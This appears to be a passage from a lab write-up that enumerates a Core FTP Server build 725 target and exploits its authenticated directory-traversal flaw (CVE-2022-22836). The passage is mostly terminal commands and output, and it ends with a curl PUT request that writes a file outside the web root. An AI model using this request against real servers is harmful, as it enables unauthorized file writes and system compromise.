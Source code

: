 ```
┌──(nabla㉿kali)-[~]
└─$ curl -s -k -X GET -H "Host: 10.129.183.247" --basic -u fiona:987654321 https://10.129.183.247/WebServersInfo.txt

CoreFTP:
Directory C:\CoreFTP
Ports: 21 & 443
Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt

Apache
Directory "C:\xampp\htdocs\"
Ports: 80 & 4443
Test Command: curl http://localhost/test.php
```

#### FTP Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p21 10.129.183.247 -T5

[SNIP]

PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
```

#### FTP Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit --cve 2022-22836 --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

{
  "Title": "CoreFTP Server build 725 - Directory Traversal (Authenticated)",
  "Codes": "CVE-2022-22836",
  "Path": "/usr/share/exploitdb/exploits/windows/remote/50652.txt"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -k -X PUT -H "Host: 10.129.183.247" --basic -u fiona:987654321 --data-binary "PoC." --path-as-is https://10.129.183.247/../../../../../../whoops

HTTP/1.1 200 Ok
Date:Tue, 22 Jun 2025 10:11:30 GMT
Server: Core FTP HTTP Server
Accept-Ranges: bytes
Connection: Keep-Alive
Content-type: application/octet-stream
Content-length: 4
```
